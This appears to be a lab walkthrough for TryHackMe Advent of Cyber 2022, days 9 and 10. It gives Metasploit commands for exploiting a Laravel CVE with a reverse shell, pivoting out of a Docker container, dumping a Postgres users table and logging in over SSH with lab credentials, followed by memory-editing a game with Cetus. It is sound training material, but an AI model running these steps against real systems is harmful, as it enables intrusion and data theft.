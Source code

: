 # [Advent of Cyber 2022](https://tryhackme.com/room/adventofcyber4)

> Get started with Cyber Security in 24 Days - learn the basics by doing a new, beginner-friendly security challenge every day leading up to Christmas.

## Day 9: Dock the halls

scan the target

```
nmap -sV 10.10.249.228
```

![image](https://user-images.githubusercontent.com/90561566/206836994-a0fb95a9-acae-4ccf-ba35-ca6528a21ab3.png)

go to webpage, you will see it use Laravel framework

![image](https://user-images.githubusercontent.com/90561566/206840506-be217bdf-43cf-476f-9374-f90124b29f70.png)

search for exploit

![image](https://user-images.githubusercontent.com/90561566/206840698-57f8cc20-b922-498f-ba11-b61d7d792e8f.png)

```
msfconsole
```

![image](https://user-images.githubusercontent.com/90561566/206837648-bd28931c-0d84-4f9f-ade3-97692ff1269f.png)

type `info` and you will see cve here

![image](https://user-images.githubusercontent.com/90561566/206840790-4eede273-2564-40a2-b259-e541c3b1e38b.png)

```
set HttpClientTimeout 20
set rhosts 10.10.249.228
check
```

![image](https://user-images.githubusercontent.com/90561566/206837806-531454b0-ff76-47ea-80b5-e149fa8df684.png)

```
set lhost 10.8.0.74
run
```

![image](https://user-images.githubusercontent.com/90561566/206837939-35b425b2-0568-4b05-890b-43a01299d78d.png)

background the session

![image](https://user-images.githubusercontent.com/90561566/206837988-e6642782-7f7e-4a54-afa4-acd1c59a11b0.png)

update to meterpreter

```
sessions -u 1
sessions -i 2
```

![image](https://user-images.githubusercontent.com/90561566/206838093-8285c2ce-5860-45f9-9d5e-2c69a4c5bc90.png)

explore the application

![image](https://user-images.githubusercontent.com/90561566/206838159-9969a7e2-cdce-4ce3-a8dc-0d9f3081e70d.png)

![image](https://user-images.githubusercontent.com/90561566/206838186-643b9f42-691c-4d12-bfd1-5d21bff1b288.png)

resolve hostname to ip

```
resolve webservice_database
```

background session and config route table for pivoting

```
route add 172.28.101.51/32 2
```

![image](https://user-images.githubusercontent.com/90561566/206838345-54f3e8f8-8a20-4a40-b71b-2ac102b34280.png)

We can also see, due to the presence of the /.dockerenv file, that we are in a docker container. 

By default, Docker chooses a hard-coded IP to represent the host machine.

```
route add 172.17.0.1/32 2
```

dump the database schema

```
use auxiliary/scanner/postgres/postgres_schemadump
set rhosts 172.28.101.51
run
```

![image](https://user-images.githubusercontent.com/90561566/206839175-3d006527-4439-4a7f-8e43-9960f6d6fa9e.png)

```
use auxiliary/admin/postgres/postgres_sql
set rhosts 172.28.101.51
set database postgres
set sql 'select * from users'
run
```

![image](https://user-images.githubusercontent.com/90561566/206839428-c7603330-bbd1-4d31-82b7-c2bc8c8a269c.png)

create socks proxy

```
use auxiliary/server/socks_proxy
set srvhost 127.0.0.1
set srvport 9050
set version 4a
run
```

![image](https://user-images.githubusercontent.com/90561566/206839549-64059aea-be38-444c-ab6f-f9da523b2996.png)

now you can use proxy through

```
proxychains nmap -n -sT -Pn -p 22,80,443,5432 172.17.0.1
```

![image](https://user-images.githubusercontent.com/90561566/206839554-7ee40680-c4dd-49d0-8de1-8431fa20d1d6.png)

SSH into the host machine from the Docker container

```
use auxiliary/scanner/ssh/ssh_login
set username santa
set password p4$$w0rd
set rhosts 172.17.0.1
run
```

now interact with opened session to grab flag

![image](https://user-images.githubusercontent.com/90561566/206840056-96f5cd4d-5e12-43f3-a8bf-6053b31c7752.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/206840820-1d4b507f-fefa-495d-ae4e-c37dc1053558.png)

![image](https://user-images.githubusercontent.com/90561566/206840829-9634a7c4-c544-4e1a-a526-92f18f2fd401.png)

## Day 10: You're a mean one, Mr. Yeti

open a game at https://10.10.12.38:443

![image](https://user-images.githubusercontent.com/90561566/206893338-e7e236eb-3d73-435e-993b-f95b2634a6b2.png)

turn right and meet the guard near the door, he requires you to quess a number

![image](https://user-images.githubusercontent.com/90561566/206893407-23ead003-1731-4b1c-b031-872dcae0d8c2.png)

enter anything you want, he will show his first number, use it on cetus

![image](https://user-images.githubusercontent.com/90561566/206893584-93ff3eac-7c4a-48b7-9480-d2d79b2d9fe9.png)

bookmark it, talk to the guard again and answer with the new number (convert it to decimal before)

![image](https://user-images.githubusercontent.com/90561566/206893681-915060f7-42c6-4c56-8749-3006b08699b5.png)

you can change it to other number before answering (0 for easiest)

![image](https://user-images.githubusercontent.com/90561566/206894039-2dba8e8e-3983-40f3-9c47-97e70aea0003.png)

go ahead, it's a big challenge for you

![image](https://user-images.githubusercontent.com/90561566/206893782-02e62d34-75ae-4c25-a146-4faa13afdf7b.png)

hmm, you can't pass it, i think 2 ways to do that, once you can stop the snowball, or you need to be invincible

![image](https://user-images.githubusercontent.com/90561566/206894233-165ac268-b31a-4440-a572-6a1bbc55e96a.png)

start new search with no-value EQ flag, reduce your heart with 1 hit, then continue check with no-value LE flag

![image](https://user-images.githubusercontent.com/90561566/206894317-22fba31e-af43-4428-ae53-d392d7ffc335.png)

until you revive, check with GT flag, now you know your max heart EQ to 100

![image](https://user-images.githubusercontent.com/90561566/206894352-ef3c6996-7b89-442c-a8b5-a286a40e3872.png)

continue you will find out 3 record, the 2 same are correct, bookmark them

![image](https://user-images.githubusercontent.com/90561566/206894186-16d28a8a-ab35-42a7-bea7-1464f5eac0f3.png)

after testing with reducing my heart, i know the first one store current heart, the other store displayed heart

![image](https://user-images.githubusercontent.com/90561566/206894472-0ad70b6e-f9bd-4da5-9eea-9059a86c301b.png)

in other words, variable 2 is a reference to variable 1, but you can change both to 1000 or freeze the first var

![image](https://user-images.githubusercontent.com/90561566/206894629-7a3f5092-a608-4c2c-b13b-bc8e16730f9d.png)

talk to yeti, here is your flag

![image](https://user-images.githubusercontent.com/90561566/206894661-766054f4-119b-451d-b231-665e0554ee65.png)

Answer

![image](https://user-images.githubusercontent.com/90561566/206894791-261f36a0-8fff-4bc9-89d5-0efd6d8d1c5d.png)

## Day 11: 











